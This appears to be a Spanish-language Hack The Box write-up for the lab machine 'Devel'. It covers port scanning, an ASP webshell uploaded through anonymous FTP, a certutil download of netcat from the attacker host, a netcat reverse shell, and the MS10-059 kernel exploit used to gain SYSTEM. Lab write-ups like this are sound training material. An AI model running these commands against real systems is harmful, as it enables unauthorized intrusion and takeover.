


# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Devel](https://www.hackthebox.com/home/machines/profile/3) |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad |  |
| Puntos | 20 |
| Creadores | [ch4p](https://www.hackthebox.com/home/users/profile/1) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:23 EDT
Initiating Connect Scan at 10:23
Scanning 10.10.10.5 [65535 ports]
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 26.80% done; ETC: 10:25 (0:01:25 remaining)
Completed Connect Scan at 10:25, 112.65s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.064s latency).
Scanned at 2022-06-16 10:23:39 EDT for 113s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.68 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,21 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:29 EDT
Nmap scan report for 10.10.10.5
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.36 seconds
```

# Enumeración

## Servicios

### ftp - 21

Si bien se buscó analizar el servicio http, no se encontró nada relevante que pudiera sobresalir para la fase de explotación, salvo la recopilación de información ya presente en el escaneo de nmap el cuál presenta la versión del servidor IIS presente.

Al identificar mediante el escaneo específico de nmap el logueo por medio de la cuenta anónima que ofrecen los servidores ftp, se buscó ingresar para visualizar qué archivos se encontraban presentes y si además de permitir el listado de estos, se permitía la escritura en el directorio.

Al visualizar los archivos disponibles se identificó que correspondían con los archivos relacionados al servidor web en cuestión, por lo que al cargar un archivo de prueba se buscó visualizarlo mediante el navegador, corroborando así un camino de explotación mediante la ejecución de código.


Visualización en navegador


# Explotación

## RCE

De acuerdo a la tecnología empleada se buscó cargar una webshell de `asp` para ejecutar comandos en la máquina, la cual se puede ubicar en `/usr/share/webshells/asp`.


Por lo que después de la carga del binario de netcat mediante:

```powershell
certutil.exe -f -urlcache http://10.10.14.16/nc.exe c:\windows\temp\nc.exe
```

Se obtuvo una reverse shell como `iis apppool\web` entablandola con:

```powershell
c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 1234
```


Reverse shell entablada:



# Post Explotación

## Enumeración

Al identificar mediante `systeminfo` que se trataba de una versión vieja de Windows 7, sumando que en la misma información mostrada por el comando no se visualizaba ningún parche instalado, se asumió que la ruta de escalación iba intencionada a realizarse por medio de explotación de kernel.


## Escalación de privilegios

### nt apppool\web &rarr; nt authority\system

Después de ocupar el [repositorio de exploits de kernel de windows](https://github.com/SecWiki/windows-kernel-exploits) para buscar alguno que fuera a la par de la fecha y acorde a la versión del sistema operativo, se encontró que el exploit relacionado a `MS10-59` era operativo pero debido a que el presente en el repositorio es presentado mediante una prueba de concepto la cual retorna una shell lanzando otro proceso/ventana y no en la presente a donde se ejecuta.

Se optó por buscar alguna otra prueba de concepto que permitiera otro enfoque, encontrando así otro [repositorio del mismo exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cuál mediante la especificación de la IP de escucha y puerto permite entablar una reverse shell como `nt authority\system`, obteniendola mediante:

```powershell
.\churri.exe 10.10.14.16 4321
```



# Referencias

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits).
- [egre55 - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).
